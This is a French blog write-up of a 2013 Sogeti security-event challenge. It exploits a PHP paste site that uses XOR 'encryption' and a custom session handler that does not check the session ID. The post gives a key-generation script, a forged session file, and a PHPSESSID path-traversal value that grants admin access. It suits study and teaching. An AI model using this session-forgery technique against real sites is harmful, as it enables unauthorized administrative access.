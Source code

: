 = Writeup challenge Sogeti
:hp-tags: security
:published_at:2013-06-28


Dans cet article je vais décrire les étapes nécessaire à la résultion d'un challenge réalisé à l'occasion d'un "security event" organisé par Sogeti le 25 juin 2013.

Sur la page d'accueil le message suivant est présent :

 Ce site web vous propose de stocker vos messages en ligne tout en les chiffrant à l'aide d'un algorithme inviolable.
 Votre but est d'accéder à la zone d'administration du site, une partie du code source est aussi disponible

== Un algorithme inviolable ?

Première étape, il va s'intéresser à cette algorithme soit disant inviolable.

[source, php]
.add.php
----
<?php

include 'includes/init.php';

if(isset($_POST['message']) && isset($_POST['password']) && strlen($_POST['password']) >= 5)
{
    $name_file = md5(microtime());
    $cipher = cipher_it($_POST['message'], stripslashes($_POST['password']));
    $f = fopen(PASTE_DIRECTORY.$name_file, 'w+');
    fwrite($f, $cipher);
    fclose($f);
    header("Location: show.php?id=".$name_file."&password=".urlencode(stripslashes($_POST['password'])));
    exit;
}

$pagename = "add";
$title = "Nouveau message";
include 'includes/header.php';
?>
----

La fonction utlisée pour encoder le message est `cipher_it` et prend en argument le message ainsi qu'un mot de passe pour l'encoder.

Cette même fonction est utilisée pour décoder le message :

[source, php]
----
<?php

include 'includes/init.php';

if(!isset($_GET['id']) || !isset($_GET['password']) || preg_match("/^[0-9a-f]{32}$/", $_GET['id']) == false)
{
    header("Location: index.php");
    exit;
}

if(!is_file(PASTE_DIRECTORY.$_GET['id']))
{
    header("Location: index.php");
    exit;
}

$f = fopen(PASTE_DIRECTORY.$_GET['id'], "rb");
$content = cipher_it(fread($f, filesize(PASTE_DIRECTORY.$_GET['id'])), $_GET['password']);
fclose($f);

$pagename = "show";
$title = "Voir un message";
include 'includes/header.php';

    echo "<fieldset class=\"event_form\" style='text-align:left;'><pre style='background:transparent;'>".htmlspecialchars($content)."</pre></fieldset>";

include 'includes/footer.php';
?>
----

Cela signifie que si l'on applique deux fois la fonction permettant d'encoder le message avec le même mot de passe, on retombe sur le message d'origine. On pense alors à la fonction *xor* souvent utilisée en crypto et qui possède cette propriété. De plus, on observe qu'il est possible d'accéder au message chiffré car la constante *PASTE_DIRECTORY* est définie dans le fichier *consts.php*.

[source, php]
----
<?php
define('PASTE_DIRECTORY', __DIR__.'/../pastes/');
?>
----

Les fichiers seront donc accessibles à partir de cette adresse :

    http://217.109.132.34/challenge/pastes/[MD5]

On va faire un petit test pour vérifier cette hypothèse. Si on chiffre le message test1 avec la clé test1 on se retrouve avec cette url :

    http://217.109.132.34/challenge/show.php?id=56499aff7b85dd3778f3572b1b822176&password=test1

Pour accéder au message chiffré il faut se rendre à l'adresse suivante :

    http://217.109.132.34/challenge/pastes/56499aff7b85dd3778f3572b1b822176

Quand on ouvre le fichier avec un éditeur de texte on se retrouve avec que des zéros :

    0000 0000 00

C'est donc bien la fonction `xor` qui est utilisée pour chiffrer les messages. On est donc désormais en mesure de créer des fichiers sur le serveur dont on maîtrise le contenu.

== Accès à la page d'administration

L'objectif premier de ce challenge est d'accéder à la page d'administration, jeton un coup d'oeil au code source :

[source, php]
----
<?php

include 'includes/init.php';

$pagename = "admin";
$title = "Administration";
include 'includes/header.php';

if(!isset($_SESSION['admin']) || $_SESSION['admin'] !== true)
{
    header("Location: index.php");
    exit;
}

define('ADMIN', true);
include 'admin_ok.php';

include 'includes/footer.php';
?>
----

On remarque qu'il n'est possible d'accéder à la page d'administration que si la variable de session admin est à true. Il nous faudrait donc un moyen nous permettant de manipuler la session.

== Gestion des sessions

Intéressons nous maintenant aux fichiers `init.php` et `class_session.php` :

[source, php]
----
<?php
class SuperSessionHandler{
    private $savePath;

    public function open($savePath, $sessionName){
        $this->savePath = $savePath;
        if (!is_dir($this->savePath)) {
            mkdir($this->savePath, 0777);
        }
        return true;
    }

    public function close(){
        return true;
    }

    public function read($id){
        return (string)@file_get_contents("$this->savePath/$id");
    }

    public function write($id, $data){
        return file_put_contents("$this->savePath/$id", $data) === false ? false : true;
    }

    public function destroy($id){
        $file = "$this->savePath/$id";
        if (file_exists($file)) {
            unlink($file);
        }
        return true;
    }

    public function gc($maxlifetime){
        foreach (glob("$this->savePath/*") as $file) {
            if (filemtime($file) + $maxlifetime < time() && file_exists($file)) {
                unlink($file);
            }
        }

        return true;
    }
}
?>
----

[source, php]
----
<?php

include 'includes/fonctions.php';
include 'includes/consts.php';
include 'includes/class_sessions.php';

error_reporting(0);

$s = new SuperSessionHandler();
session_save_path(__DIR__.'/../sessions/');
session_set_save_handler (
        array(&$s, 'open'),
        array(&$s, 'close'),
        array(&$s, 'read'),
        array(&$s, 'write'),
        array(&$s, 'destroy'),
        array(&$s, 'gc')
        );
session_start();
?>
----

On remarque qu'une classe a été crée permettant de redéfinir la manière dont seront stockées les sessions, les sessions sont stockée dans le dossier *sessions*. Pour accéder à la session il faut se rendre à l'adresse :

    http://217.109.132.34/challenge/sessions/[PHPSESSID]

Si on regarde de plus près la fonction `read`, il s'avère que le paramètre `id` n'est pas du tout contrôlé !

[source, php]
----
<?php
    public function read($id){
        return (string)@file_get_contents("$this->savePath/$id");
    }
?>
----

On est donc en mesure de choisir le fichier qui sera utilisé comme session est modifiant le `PHPSESSID`.

== Résolution de l'épreuve

Si on récapitule :

 * Il nous est possible de créer sur le serveur un fichier au contenu arbitraire
 * Pour accéder à la page d'administration il faut modifier sa session
 * On a de la chance la gestion des sessions est personnalisée

On va donc crée un message chiffré qui sera utilisé comme fichier de session afin de se faire passer pour l'admin. Le contenu du fichier de session avec la variable admin à `true` ressemble à ça :

    admin|b:1;

Pour obtenir le message chiffré j'ai créé un petit script qui me génère une clé afin que le premier texte chiffré ne contienne que des caractère imprimables.

[source, php]
----
<?php
function xor_this($string,$key) {
 // Our plaintext/ciphertext
 $text =$string;

 // Our output text
 $outText = '';

 // Iterate through each character
 for($i=0;$i<strlen($text);)
 {
     for($j=0;($j<strlen($key) && $i<strlen($text));$j++,$i++)
     {
         $outText .= $text{$i} ^ $key{$j};
         //echo 'i='.$i.', '.'j='.$j.', '.$outText{$i}.'<br />'; //for debugging
     }
 }
 return $outText;
}

function generateRandomString($length = 10) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, strlen($characters) - 1)];
    }
    return $randomString;
}

while(1){
    $key =generateRandomString();
    if(ctype_print(xor_this('admin|b:1;',$key))){
        echo $key."<br/>";
        echo ctype_print(xor_this('admin|b:1;',$key));
        die();
    }
}
?>
----

Le principe est simple je génère une chaine de caractère aléatoire de même taille que le texte à chiffrer et je vérifie que le texte obtenu en sortie est constitué uniquement de caractère imprimables avec la fonction `ctype_print`.

Clés qui fonctionnnent :

    Y3BFOWOXlV
    KYNZAPHCcC
    GZV2KSEpds

Une fois que l'on a la clé il suffit de chiffrer le message une première fois avec la clé, pour chiffrer à nouveau le résultat avec cette même clé.

    Clé     : FJQ5VPSStf
    Message : admin|b:1;
    Cipher  : '.<\8,1iE]

    Clé     : FJQ5VPSStf (clé)
    Message : '.<\8,1iE] (cipher)
    Cipher  : admin|b:1;

On se rend à l'adresse du message chiffré et on retrouve bien notre message d'origine

Il ne reste plus qu'a changé la valeur du `PHPSESSID` pour qu'il pointe sur notre message. Pour cela j'ai utilisé l'extension "Edit this cookie" pour Chrome et j'ai remplacé la valeur du `PHPSESSID` par :

    ../pastes/2790cdae372837fbc4347f63990bda54

Et voila si l'on se rend sur la page d'administration le message affiché est désormais :

 Félicitations !
 Le message caché est :
 Si tu es arrivé(e) jusque là c'est que tu peux aller jusqu'Issy !

Au final une épreuve pas très compliquée mais intéressante :)
